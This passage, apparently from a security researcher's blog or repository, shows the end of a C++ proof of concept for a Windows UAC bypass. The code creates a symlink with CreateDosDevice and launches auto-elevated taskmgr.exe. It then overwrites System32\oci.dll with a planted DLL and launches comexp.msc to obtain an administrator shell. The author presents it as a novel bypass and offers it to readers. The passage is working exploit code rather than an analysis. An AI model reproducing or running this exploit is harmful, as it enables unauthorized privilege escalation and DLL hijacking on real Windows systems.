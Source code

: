 ```cpp
    else {
        std::wcerr << L"Failed to open recent.txt\n";
    }

    std::wstring dosDeviceName = L"Global\\GLOBALROOT\\RPC CONTROL\\" + recentFile;

    if (CreateDosDevice(dosDeviceName.c_str(), dllTarget.c_str())) {
        std::wcout << L"Symlink created: " << dosDeviceName << L" -> " << dllTarget << std::endl;
        
    }
    else {
        std::wcerr << L"CreateDosDevice failed: " << GetLastError() << std::endl;
        return 1;
    }

    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000); 
   
    WinExec("cmd.exe /c copy /Y c:\\myfolder\\oci.dll c:\\windows\\system32\\oci.dll", 0); //overwrite dummy file with our file
    Sleep(3000);
    WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
    std::cout << "Launching admin shell!\n";
    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\comexp.msc", L"", 3000); 
    std::cout << "[+] Cleanup: removing oci.dll to prevent unwanted issues with other exe's that want to load it\n";
    Sleep(1000);
    WinExec("cmd.exe /c del /F /Q C:\\Windows\\System32\\oci.dll", 0);
    return 0;
}
```

I realize it's a lot of code, but hey, it gets the job done and it's sort of a novel UAC bypass.  Take it or leave it, I certainly learned a lot revisiting junctions, arbitrary write vulnerabilities, race conditions, and how to terminate an auto-elevated process without being an administrator.  Enjoy!

